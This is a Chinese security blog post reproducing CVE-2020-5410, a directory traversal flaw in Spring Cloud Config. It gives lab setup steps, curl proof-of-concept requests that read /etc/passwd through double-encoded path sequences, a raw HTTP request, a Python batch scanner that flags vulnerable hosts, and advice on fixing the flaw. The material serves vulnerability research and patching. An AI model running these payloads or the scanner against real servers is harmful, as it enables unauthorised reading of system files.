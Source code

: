 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/X4dlpj_m_F9Yhk_vgo5-RQ)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjccGa7uuupoHLYcOMKNFynia7tq8kV95cqYOba2rSXIXmVvJWe9R9dwSWe7sNleRpsYDIicVOVfkRlQ/640?wx_fmt=png)

##### Spring Cloud Config 目录穿越漏洞

##### (CVE-2020-5410)

一、漏洞简介

Spring Cloud Config 是 Spring Cloud 中用于分布式配置管理的组件，Spring Cloud Config 为分布式系统中的外部配置提供服务器和客户端支持。2.2.3 之前的 2.2.x 版本，2.1.9 之前的 2.1.x 版本以及较旧的不受支持的版本允许应用程序通过 spring-cloud-config-server 模块提供任意配置文件。恶意用户或攻击者可以使用特制 URL 发送请求，可能导致目录遍历攻击。

二、影响版本

Spring Cloud Config: 2.2.0 to 2.2.2

Spring Cloud Config: 2.1.0 to 2.1.8

三、漏洞环境 & 漏洞复现

环境一：

下载 v2.2.2 版本并解压：  

wget https://github.com/spring-cloud/spring-cloud-config/archive/v2.2.2.RELEASE.tar.gz tar -zxvf v2.2.2.RELEASE.tar.gz

启动：

cd spring-cloud-config-2.2.2.RELEASE/spring-cloud-config-server ../mvnw spring-boot:run

环境二：

Docker 环境部署：

```
docker pull hyness/spring-cloud-config-server:2.1.6.RELEASE
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjccGa7uuupoHLYcOMKNFyniaQS4anz7YpqXltWpeUZSBbya8s6gKrL6ja1mEDd26E5OcEVibhspF9Xw/640?wx_fmt=png)

```
docker run -it --name=spring-cloud-config-server \
-p 8888:8888 \
hyness/spring-cloud-config-server:2.1.6.RELEASE \
--spring.cloud.config.server.git.uri=https://github.com/spring-cloud-samples/config-repo
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjccGa7uuupoHLYcOMKNFyniambe78q0Z7sAfToGJFZ4icbsGWUiasOXSlTIbyUpgnPpvGTLiaKjHia7FvQ/640?wx_fmt=png)

访问地址：http://192.168.0.110:8888/

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjccGa7uuupoHLYcOMKNFyniaCUXETYjicPpdMaZ77ezVZM90IRqyx3JaNUYzlt9ueF7VKAOqKwaLk4A/640?wx_fmt=png)

执行 POC：

curl "192.168.0.110:8888/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23foo/development"

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjccGa7uuupoHLYcOMKNFyniaqNztDnKrEKylxbp5ZcQlnF5UakRULYbC6tRfia2t1Cxe2s38JicrXAtg/640?wx_fmt=png)

Burp 执行访问：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjccGa7uuupoHLYcOMKNFyniaFuRSTzT24W2xn5kANUNxAPDgbmBzib6JovmEiaVicI9CBGrqQXBicITHEQ/640?wx_fmt=png)

详细数据包：

```
GET /..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23foo/development HTTP/1.1
Host: 192.168.0.110:8888
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

系统执行访问记录：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjccGa7uuupoHLYcOMKNFyniaWRcufxXY1WiaU7WuMraOZPbsSs2SU0yNDbc8picSKvyJpuct6iaeKb8cg/640?wx_fmt=png)

批量尝试跑了一下：  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjckVVQxickeCgobhJswa927w4lDk5Yfhp4hHHWtQTH8D0oibYia0vD1FericWbV4f6T3pfP8L23EtGLRA/640?wx_fmt=png)

PoC:

```
curl "vulnerablemachine:port/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23foo/development"
```

```
curl "127.0.0.1:8888/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23foo/development"
```

核心检测代码：  

def webhttp():    for line in ff:        try:            line = line.rstrip("\n")            payload = "/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23foo/development"            headers = {"Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}            url = line + payload            req = requests.get(url,headers=headers, verify=False, timeout=1)            status = req.status_code            #print(req.text)            if 'root:x' in req.text and status == 200:                print(url+"------------- 存在漏洞 -------------")                writefile.write(url)                writefile.write('\n')            else :                print(url+"不存在漏洞")                pass        except OSError:            pass

四、修复建议：

1）升级到 Spring Cloud Config 至【修复版本】；

     新版本下载地址：https://github.com/spring-cloud/spring-cloud-config/releases

2）将 Spring-Cloud-Config-Server 服务放置在内网中，同时使用 Spring Security 进行身份验证。

参考：

https://github.com/osamahamad/CVE-2020-5410-POC

https://xz.aliyun.com/t/7877

https://blog.csdn.net/wanzt123/article/details/106765503

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

语雀博客主页：https://www.yuque.com/thelostworld

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)

欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3ibf9GUyuOCzpVJBq6z1Z60vzBjlEWLAu4gD9Lk4S57BcEiaGOibJfoXicQ/640?wx_fmt=png)
